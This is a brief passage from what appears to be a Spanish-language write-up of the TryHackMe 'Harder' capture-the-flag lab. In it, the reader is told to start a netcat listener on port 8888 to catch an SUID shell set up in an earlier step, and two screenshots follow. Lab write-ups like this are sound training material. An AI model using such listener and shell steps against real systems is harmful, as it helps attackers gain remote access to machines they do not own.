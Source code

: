3. **Verifica el puerto de escucha**  
   Si la línea de comando se ejecutó, deberías poder obtener la shell SUID creada:

   ```bash
   nc -lvnp 8888
   ```

![alt text](/assets/img/writeups/tryhackme/harder/image-22.png)

![alt text](/assets/img/writeups/tryhackme/harder/image-23.png)